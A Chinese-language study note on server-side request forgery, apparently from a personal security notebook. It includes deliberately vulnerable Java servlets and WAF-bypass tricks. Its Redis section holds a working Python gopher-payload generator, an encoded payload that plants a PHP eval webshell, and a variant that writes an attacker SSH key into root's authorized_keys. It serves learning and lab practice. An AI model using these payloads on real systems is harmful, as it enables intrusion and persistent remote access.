





# SSRF

## 1. 基本概念

1. SSRF(Server-Side Request Forgery：服务器端请求伪造)，指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF 攻击通常针对外部网络无法直接访问的内部系统。

## 2. 涉及到的协议和工具

### 2.1 常见协议总述

1. 常见的协议有：`gopher`、`dict`、`file`、`ftp`、`http`、`https`、`jar`、`netdoc`。
2. 此外，还有其他的协议：
    `mailto`：是一个用于发送邮件的 URL 协议。
    `jar`：Jar URL 协议解析，协议可以用来读取 zip 格式文件(包括 jar 包)中的内容。
    `netdoc` 协议：在大部分情况下可代替 file。

### 2.2 `file` 协议

1. `file` 协议，也就是本地文件传输协议，主要用于访问本地计算机中的文件。
2. 使用 **`file` 协议 + 回显**就能直接显示文件的具体内容。

### 2.3 `dict` 协议

1. `dict` 协议，即字典服务器协议，该协议用来搭建字典服务，部分内容详见：

    > https://www.programminghunter.com/article/91102237634/

2. 其一般和 redis 的渗透结合使用，用来收集一些信息，例如：

    获取 redis 服务配置信息：`dict://ip:6379/info`

    获取 redis 服务存储内容：`dict://ip:6379/KEYS *`

    具体详见：

    > https://xz.aliyun.com/t/7333#toc-4

3. 探测 ssh 的 banner 信息：

    `dict://ip:22/info`

### 2.4 `gopher` 协议

1. `gopher` 协议是 HTTP 协议出现之前，在 Internet 上最常见和常用的一个协议，目前其已经慢慢退出舞台，但是 `gopher` 协议在 ssrf 中是“万能协议”。

2. `gopher` 协议：

    > https://www.cnblogs.com/Konmu/p/12984891.html

    主要注意其替换：替换回车为 `%0d%0a`，HTTP 包最后结束也要加 `%0d%0a`

3. 利用 `gopher` 协议拓展攻击面：TODO 待细学和补充

    > https://blog.chaitin.cn/gopher-attack-surfaces/
    >
    > https://xz.aliyun.com/t/7333#toc-8
    >
    > https://cloud.tencent.com/developer/article/1586099

4. ssrf + getshell

    使用 `gopher` 协议访问远程 vps 上的一句话即可。

### 2.5 cURL 工具

1. cURL 工具，即 curl，是常用的命令行工具，是 web 常用的调试工具（类似 postman 这种），详见的用法和参数：

    > https://www.ruanyifeng.com/blog/2019/09/curl-reference.html

    一些 SSRF 的 payload 需要用 curl 传输。

## 3. PHP 中的 SSRF

### 3.1 `file_get_contents()`

1. 该函数的作用是把文件读入一个字符串中。

2. 函数的具体：

    > https://www.php.net/manual/zh/function.file-get-contents.php

3. 当该函数的参数外部可控时，如果网站使用 `echo` 等将结果回显出来，那么可以造成任意文件读取漏洞，直接输入文件路径就能显示文件内容。

### 3.2 `fsockopen()`

1. 该函数的作用是打开一个网络连接或者一个 Unix 套接字连接

2. 函数的具体：

    > https://www.php.net/manual/zh/function.fsockopen.php

3. 如果输入的主机和端口可控就可以用某协议对某网站的某端口进行访问。

4. 类似的，`pfsockopen()` 也有类似的功能，它就是能打开一个持久的连接，函数的具体：

    > https://www.php.net/manual/zh/function.pfsockopen.php

### 3.3 `curl_exec()`

1. 该函数的作用就是执行一个 cURL 会话。

2. 该函数的具体详见：

    > https://www.php.net/manual/zh/function.curl-exec.php

3. 其执行由 `curl_init()` 返回的，用 `curl_setopt()` 设置参数的 cURL 句柄。

4. 该函数的危害，由于 cURL 支持的协议很多，因此危害可以被扩大。

## 4. Java 中的 SSRF

### 4.1 Java 中能发起网络请求的类和关键代码

1. 代码审计中，需要这些类的话就要着重考虑：

    ```java
    HttpClient;
    HttpURLConnnection;
    URLConnection;
    URL;
    OkHttp;
    ImageIO;
    Request extend HttpCilent;
    ```

2. 其中支持所有协议的类有：

    ```java
    URLConnection;
    URL;
    ImageIO;
    ```

3. 审计关键代码：

    ```java
    HttpClient.execute();
    HttpClient.executeMethod();
    HttpURLConnection.connect();
    HttpURLConnection.getInputStream();
    URL.openStream();
    URLConnnection.getInputStream();
    Request.Get().exeute();
    Request.Post().exeute();
    ImageIO.read();
    OkHttpClient.newCall.execute();
    HttpServletRequest();
    BasicHttpRequest();
    ```

### 4.2 常见的漏洞代码

#### 4.2.1 例子一 -- 通过 HTTP 协议探测内网开放 HTTP 的端口

1. 靶场漏洞代码：

    ```java
    package com.endlessshw.controller;
    
    import jakarta.servlet.ServletException;
    import jakarta.servlet.annotation.WebServlet;
    import jakarta.servlet.http.HttpServlet;
    import jakarta.servlet.http.HttpServletRequest;
    import jakarta.servlet.http.HttpServletResponse;
    import java.io.BufferedReader;
    import java.io.IOException;
    import java.io.InputStreamReader;
    import java.io.PrintWriter;
    import java.net.HttpURLConnection;
    import java.net.URL;
    import java.net.URLConnection;
    import java.nio.charset.StandardCharsets;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 存在内网 HTTP 端口探测的漏洞代码
     * @date 2023/4/4 10:10
     */
    @WebServlet("/port")
    public class SSRFPortController extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            // 设置网页编码和响应内容编码
            request.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setContentType("text/html; charset=utf-8");
    
            // 获取参数并将其结果显示在页面上
            PrintWriter print = response.getWriter();
            // 从参数 url 获取内容
            String urlStr = request.getParameter("url");
            // 要打印到页面的内容
            String htmlContent;
            try {
                // 实例化
                URL url = new URL(urlStr);
                //打开和 url 之间的连接
                URLConnection urlConnection = url.openConnection();
                // 强制转换成 HttpURLConnection
                HttpURLConnection httpUrl = (HttpURLConnection) urlConnection;
                // 使用流包装类来获取 URL 响应
                BufferedReader base = new BufferedReader(new InputStreamReader(httpUrl.getInputStream(), StandardCharsets.UTF_8));
                // 创建 String 加强类来辅助 htmlContent 的拼接
                StringBuilder html = new StringBuilder();
                while ((htmlContent = base.readLine()) != null) {
                    html.append(htmlContent);
                }
                // 关流
                base.close();
                // 将结果打印到前端页面上
                print.println("<b>内网端口探测</b></br>");
                print.println("<b>url:" + urlStr + "</b></br>");
                print.println(html.toString());
                print.flush();
            } catch (Exception e) {
                e.printStackTrace();
                print.println("存在 ssrf 漏洞,传参?url=??? \ngook luck");
                print.flush();
            }
        }
    }
    ```

2. 运行该代码后，访问页面后结果如下：
    

#### 4.2.2 例子二 -- 任意文件读取

1. 例一的代码中，删除以下代码：

    ```java
    // 强制转换成 HttpURLConnection
    HttpURLConnection httpUrl = (HttpURLConnection) urlConnection;
    ```

    不将其转换成基于 HTTP 协议的 Connection 后，原生的 URLConnection 可以支持其他协议。
    修复后如下：

    ```java
    package com.endlessshw.controller;
    
    import jakarta.servlet.ServletException;
    import jakarta.servlet.annotation.WebServlet;
    import jakarta.servlet.http.HttpServlet;
    import jakarta.servlet.http.HttpServletRequest;
    import jakarta.servlet.http.HttpServletResponse;
    
    import java.io.BufferedReader;
    import java.io.IOException;
    import java.io.InputStreamReader;
    import java.io.PrintWriter;
    import java.net.URL;
    import java.net.URLConnection;
    import java.nio.charset.StandardCharsets;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 存在读取文件的漏洞代码
     * @date 2023/4/4 10:48
     */
    @WebServlet("/readfile")
    public class SSRFReadFileController extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            // 设置网页编码和响应内容编码
            request.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setContentType("text/html; charset=utf-8");
    
            // 获取参数并将其结果显示在页面上
            PrintWriter print = response.getWriter();
            // 从参数 url 获取内容
            String urlStr = request.getParameter("url");
            // 要打印到页面的内容
            String htmlContent;
            try {
                // 实例化
                URL url = new URL(urlStr);
                //打开和url之间的连接
                URLConnection urlConnection = url.openConnection();
                // 使用流包装类来获取 URL 响应
                BufferedReader base = new BufferedReader(new InputStreamReader(urlConnection.getInputStream(), StandardCharsets.UTF_8));
                // 创建 String 加强类来辅助 htmlContent 的拼接
                StringBuilder html = new StringBuilder();
                while ((htmlContent = base.readLine()) != null) {
                    html.append(htmlContent);
                }
                // 关流
                base.close();
                // 将结果打印到前端页面上
                print.println("<b>内网端口探测</b></br>");
                print.println("<b>url:" + urlStr + "</b></br>");
                print.println(html.toString());
                print.flush();
            } catch (Exception e) {
                e.printStackTrace();
                print.println("存在 ssrf 漏洞,传参?url=??? \ngook luck");
                print.flush();
            }
        }
    }
    ```

2. 因此，这里使用 `file` 协议来读取文件内容：
    

    使用 `///` 是为了防止 url 转义

#### 4.2.3 例子三 -- 任意文件下载

1. 漏洞代码：

    ```java
    package com.endlessshw.controller;
    
    import jakarta.servlet.ServletException;
    import jakarta.servlet.annotation.WebServlet;
    import jakarta.servlet.http.HttpServlet;
    import jakarta.servlet.http.HttpServletRequest;
    import jakarta.servlet.http.HttpServletResponse;
    
    import java.io.IOException;
    import java.io.InputStream;
    import java.io.OutputStream;
    import java.net.URL;
    
    @WebServlet("/download")
    public class SSRFDownloadFileController extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            // 获取文件名
            String urlStr = request.getParameter("url");
            String filename = urlStr.substring(urlStr.lastIndexOf("/") + 1);
            response.setHeader("content-disposition", "attachment;fileName=" + filename);
            System.out.println(filename);
    
            int len;
            OutputStream outputStream = response.getOutputStream();
            URL file = new URL(urlStr);
            byte[] bytes = new byte[1024];
            InputStream inputStream = file.openStream();
    
            while ((len = inputStream.read(bytes)) > 0) {
                outputStream.write(bytes, 0, len);
            }
        }
    }
    ```

2. 使用 `file` 协议下载：
    

## 5. SSRF 中利用 gopher 协议扩展攻击面

1. 参考文章：

    > https://blog.chaitin.cn/gopher-attack-surfaces/
    >
    > https://xz.aliyun.com/t/7333#toc-8
    >
    > https://cloud.tencent.com/developer/article/1586099

### 5.1 结合 Redis 的攻击

1. 前提：要能够远程登录 Redis，即注释掉：`bind 127.0.0.1 -::1`。
    对于大于 3.2 版本的 Redis，还需要关闭保护模式：`protected-mode no`

#### 5.1.1 Redis 写 Shell

1. 首先使用 `dict` 协议可以探测 redis 的信息：`curl dict://ip:6379/info`
    

2. RESP（Redis Serialization Protocol）用于 Redis 客户端和用户端的通信，主要用于将简单字符串、整数、错误、数组等内容序列化。详情见：

    > https://blog.csdn.net/ljheee/article/details/103876683

3. 在目标主机上执行以下命令可以获得 Shell：
    ```bash
    flushall # 命令用于清空整个 Redis 服务器的数据
    set 1 '<?php @eval($_POST[1]);?>' # 创建一个键值对，键为 1，值为一句话
    config set dir '/var/www/html'  # 设置文件存储路径
    config set dbfilename shell.php # 设置文件名
    save # 保存
    ```

    但是实际是通过 SSRF 而不是直接在本机通过 redis-cli 远程连接执行，所以需要通过传输协议发过去。
    但是这些命令又不能直接放在链接中，需要通过 RESP 来发送到服务器。
    因此这些命令需要 RESP + Gopher 才能攻击。

4. 利用脚本如下所示：
    ```python
    # python2 script
    import urllib
    protocol="gopher://"
    ip="192.168.43.111"
    port="6379"
    shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
    filename="shell.php"
    # path="/var/www/html"
    path="/etc/redis"
    passwd=""
    cmd=["flushall",
         "set 1 {}".format(shell.replace(" ","${IFS}")),
         "config set dir {}".format(path),
         "config set dbfilename {}".format(filename),
         "save"
         ]
    if passwd:
        cmd.insert(0,"AUTH {}".format(passwd))
    payload=protocol+ip+":"+port+"/_"
    def redis_format(arr):
        CRLF="\r\n"
        redis_arr = arr.split(" ")
        cmd=""
        cmd+="*"+str(len(redis_arr))
        for x in redis_arr:
            cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
        cmd+=CRLF
        return cmd
    
    if __name__=="__main__":
        for x in cmd:
            payload += urllib.quote(redis_format(x))
        print(payload)
    ```

5. 生成的 Payload 以及经过 URL 解码后如下：
    ```bash
    gopher://192.168.43.111:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2431%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2410%0D%0A/etc/redis%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A # payload
    # URL 解码后内容
    gopher://192.168.43.111:6379/_*1
    $8
    flushall
    *3
    $3
    set
    $1
    1
    $31
    
    
    <?php eval($_GET["cmd"]);?>
    
    
    *4
    $6
    config
    $3
    set
    $3
    dir
    $5
    /etc/redis
    *4
    $6
    config
    $3
    set
    $10
    dbfilename
    $9
    shell.php
    *1
    $4
    save
    ```

6. 成功写入：
    

#### 5.1.2 Redis 写入 SSH 公钥

1. 如果 `.ssh` 目录存在且可写入，那么往 `~/.ssh/authorized_keys` 写入公钥。如果不存在，可以考虑利用 crontab 来创建目录。

2. 首先是 redis 命令：
    ```bash
    flushall
    set 1 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINRnb1SOYJgKYhaTSKSV+66ELmfWCDGZXyG/qBc+TR8p hacker@kali' # 公钥
    config set dir /root/.ssh/ # 写入的路径
    config set dbfilename authorized_keys
    save
    ```

    公钥需要通过 `ssh-keygen` 生成，默认在 `~/.ssh/` 目录下。

3. 将 Redis 写 Shell 的脚本进行修改：
    ```python
    # python2 script
    # encoding: utf-8
    import urllib
    protocol="gopher://"
    ip="192.168.43.111"
    port="6379"
    # 1. 改内容
    shell="\n\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINRnb1SOYJgKYhaTSKSV+66ELmfWCDGZXyG/qBc+TR8p hacker@kali\n\n"
    # 2. 改文件名
    filename="authorized_keys"
    # path="/var/www/html"
    # 3. 改路径
    path="/root/.ssh/"
    passwd=""
    cmd=["flushall",
         "set 1 {}".format(shell.replace(" ","${IFS}")),
         "config set dir {}".format(path),
         "config set dbfilename {}".format(filename),
         "save"
         ]
    if passwd:
        cmd.insert(0,"AUTH {}".format(passwd))
    payload=protocol+ip+":"+port+"/_"
    def redis_format(arr):
        CRLF="\r\n"
        redis_arr = arr.split(" ")
        cmd=""
        cmd+="*"+str(len(redis_arr))
        for x in redis_arr:
            cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
        cmd+=CRLF
        return cmd
    
    if __name__=="__main__":
        for x in cmd:
            payload += urllib.quote(redis_format(x))
        print(payload)
    ```

4. 自己实验的时候，发现写不进去，权限不够。

#### 5.1.3 写入 crontab 计划任务以反弹 Shell

1. 这个 Ubuntu 行不通，详情见：

    > https://www.cnblogs.com/linuxsec/articles/11221756.html

### 5.2 结合其他的攻击

1. 除了 Redis 未授权访问，其他相关未授权或者能直接访问的服务，其实都可以利用 SSRF + `Gopher` 协议写马，包括但不限于：

    1. MySQL (Port-3306)
    2. PostgreSQL(Port-5432)
    3. FastCGI (Port-9000)
    4. Redis (Port-6379)
    5. Zabbix (Port-10050)
    6. SMTP (Port-25)

2. 当发现未授权的服务时，可以使用该工具生成 payload：

    > https://github.com/tarunkant/Gopherus

### 5.3 Redis 主从复制 RCE

1. TODO

## 6. 绕过 waf 的一些方法

### 6.1 更改 IP 的写法

1. 一般 ip 都是点分十进制，可以考虑点分八进制和十六进制：
    1. 八进制：[0|x]xxx.[0|x]xxx.[0|x]xxx.[0|x]xxx
    2. 十六进制：0x??.0x??.0x??.0x??
2. 十六进制还可以压缩点和省略 `0x`，即：0x????????。在此基础上，再将其转换成十进制，也可以。
3. 特殊的省略，两个 `.0` 以上的，可以省略，例如 127.0.0.1 可以写成 127.1。
4. Linux 下，单独的 0 可以直接代表 localhost。

### 6.2 IP 的解析问题

1. 当解析有问题时，`@` 后面的内容会直接访问，而 `@` 前面的域名会被跳过。
2. 利用 `。、` 代替 `.`。
3. 有时可以考虑短域名。

### 6.3 利用 302 跳转

1. 如果网站支持 302 跳转，那么可以考虑使用特殊的域名：`xip.io`。该域名的特殊之处在于，会将 `内网 ip.xip.io`（也就是其子域名）解析到 `内网 ip`。
2. 当然，如果内网 ip 被拦截，考虑使用短网址：[http://a.topurl.cn/#/ ](https://cloud.tencent.com/developer/tools/blog-entry?target=http%3A%2F%2Fa.topurl.cn%2F%23%2F&source=article&objectId=1586099)所提供的短地址服务。

### 6.4 DNS 重绑定

1. 一般情况下，服务器在获得 DNS 服务器解析后的 IP 地址后，会对其进行黑白名单过滤。而对于域名所有者，他可以设置域名所对应的 IP 地址。当用户第一次访问，服务器通过解析域名后获取一个 IP 地址。然后，域名持有者修改对应的 IP 地址，用户再次请求该域名，就会获取一个新的 IP 地址。对于浏览器来说，整个过程访问的都是同一域名，所以认为是安全的（基于浏览器同源策略） 。这就是 DNS Rebinding 攻击。
2. 利用网站如下：
    https://lock.cmpxchg8b.com/rebinder.html

## 7. SSRF 漏洞的挖掘和实战详例

### 7.1 例一

1. 参考：

    > https://zone.huoxian.cn/d/541-web-ssrf

2. 总结一下：

    1. **触发场景、检测和利用**的经验都要学习。

    2. ceye 平台的使用，不光可以用来 DNSLog 外带，**也可以探测 HTTP 等相关信息**：
        

    3. 本地文件读取路径绕过 waf 的方法：重复 `./` 干扰 waf 判断。

    4. 没有**回显的 SSRF**，即 Blind SSRF，其利用方法详见：

        > https://github.com/assetnote/blind-ssrf-chains

        TODO：有空自己翻译。

    5. 有些漏洞需要发送 POST 请求，`Gopher` 发送 POST 请求：

        > https://blog.csdn.net/weixin_45887311/article/details/107327706

    6. 若某些网站限制 `Gopher` 协议，可考虑利用 302 跳转。**使用条件**：SSRF 处支持 302 跳转。

        > https://zone.huoxian.cn/d/392

    7. 最后的 CSRF 结合是真的想不到，牛的。

### 7.2 例二

1. TODO：等我什么时候能挖到再说吧